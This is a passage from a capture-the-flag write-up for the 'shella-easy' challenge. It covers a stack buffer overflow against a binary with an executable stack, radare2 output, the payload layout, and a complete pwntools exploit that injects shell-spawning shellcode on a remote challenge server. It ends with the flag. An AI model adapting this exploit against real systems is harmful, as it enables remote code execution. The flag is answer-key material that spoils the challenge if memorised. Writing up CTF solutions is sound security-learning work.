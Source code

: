 ```
$ r2 -d ./shella-easy
...
[0xf7ed8c70]> i
...
nx       false
...
[0xf7ed8c70]> dm
...
0xffddb000 - 0xffdfd000 - usr   136K s rwx [stack] [stack] ; map.stack_.rwx
```

So our objective is to first overwrite the `v5` variable to equal to `-559038737` or `0xDEADBEEF` in hex. You can do the signed integer to hex conversion using a [online tool](http://www.binaryconvert.com/convert_signed_int.html) or just python.

Then we can control the `eip` register and execute a shellcode than is placed on the stack with our input.

In conclusion, this is how our payload should look like:

* shellcode
* padding to 0x40 bytes
* 0xDEADBEEF <-- overwrite `v5`
* 8 bytes padding
* the leaked stack address that points to our shellcode

Here is the exploit in python:

```python
from pwn import *

# sh = process('./shella-easy')
sh = remote('52.15.182.55', 12345)
addr = sh.recvuntil('thanks\n').split(' ')[4][2:]
addr = int(addr, 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = ''
payload += shellcode
payload += 'a'*(0x40-len(shellcode))
payload += p32(0xDEADBEEF) # -559038737
payload += 'a'*8
payload += p32(addr)

sh.sendline(payload)
sh.interactive()
```

flag: `TUCTF{1_607_4_fl46_bu7_n0_fr135}`

# Ehh
